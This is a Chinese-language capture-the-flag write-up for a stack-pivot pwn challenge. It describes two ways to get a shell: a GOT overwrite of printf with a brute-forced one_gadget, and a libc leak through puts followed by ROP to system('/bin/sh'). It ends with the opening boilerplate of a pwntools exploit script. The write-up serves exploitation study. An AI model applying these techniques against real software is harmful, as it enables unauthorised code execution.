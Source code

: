 **利用方式1：爆破onegadget**

第一次输入可以输入3个地址长度，这里分别为read_long、第一个read地址、start地址，然后通过第二次read_long可以修改rbp到第一次输入buf的上方，程序下次返回就能返回到构造的地址read_long处，然后输入printf@got.plt的地址，atol后会设置rax为printf@got.plt，read_long返回会返回到第一个read地址处，接着read，但是注意此时的buf已被修改为printf@got.plt，因为read的第二个参数在rsi中，而在之前read_long函数执行完后rax被设置成printf@got.plt，当跳转到read的时候buf是由rax赋值的，所以在执行的时候就会往printf@got.plt处写，这就可以覆盖printf@got.plt的后3个字节为ongadget去拿shell。
```asm
.text:00000000004011FF                 mov     edx, 18h        ; nbytes
.text:0000000000401204                 mov     rsi, rax        ; buf
.text:0000000000401207                 mov     edi, 0          ; fd
.text:000000000040120C                 call    _read
.text:0000000000401211                 lea     rax, s          ; "That is an interesting chall"
```
这里经过调试发现当后面调用printf触发onegadget的时候rax=0，所以第一个onegadget可以用，这里我们只能确切修改地址末12bit位，经过比较onegadget和printf@got.plt相差3个字节24位，所以剩下的12位就只能爆破了。
利用步骤：

1. 输入返回地址read_long、第一个read地址
2. read_long调整rbp返回到read_long,接着输入printf@got.plt，rax=printf@got.plt
3. 返回到第一个read地址，此时read的buf = printf@got.plt，修改末12位为onegadget偏移，剩余12为爆破
4. 后面printf触发onegadget。

爆破长度12位，16 * 16 * 8=2048次，实际上爆破长度是16^3

**利用方式二：泄露libc，rop**

和上面方式一样，首先将输入三个main地址入栈（用于rop结束后返回到main），之后调整rbp返回到main函数，此时会在原栈帧上方（低地址）重新开辟栈空间，输入rop调用put函数将put地址泄露出来拿到libc，之后会再次返回到main，接着rop调用system('/bin/sh'),获取shell。
步骤：

1. 第一个read输入三个main地址用于返回，read_long调整rbp返回到main
2. 接着rop返回到put，泄露put地址，拿到libc
3. 接着rop返回到system，获取shell。

这种方式明显优于爆破方式，利用调整rbp来返回到rop，进而泄露libc，获取shell。
## exp1 爆破onegadget
```python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
context.terminal = ["/usr/bin/tmux","sp","-h"]

#io = remote('127.0.0.1', 6010)
# libc = ELF('./libc-2.31.so')
# io = process(['./test', 'real'])
#io = process('./justdoit.1')
#libc=ELF('/glibc/2.23/64/lib/libc-2.23.so')

l64 = lambda      :u64(io.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
l32 = lambda      :u32(io.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
rl = lambda	a=False		: io.recvline(a)
ru = lambda a,b=True	: io.recvuntil(a,b)
rn = lambda x			: io.recvn(x)
sn = lambda x			: io.send(x)
sl = lambda x			: io.sendline(x)
sa = lambda a,b			: io.sendafter(a,b)
sla = lambda a,b		: io.sendlineafter(a,b)
irt = lambda			: io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s			: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data		: u32(data.ljust(4, b'\x00'))
uu64 = lambda data		: u64(data.ljust(8, b'\x00'))
ur64 = lambda data		: u64(data.rjust(8, b'\x00'))


main=0x4011D5
```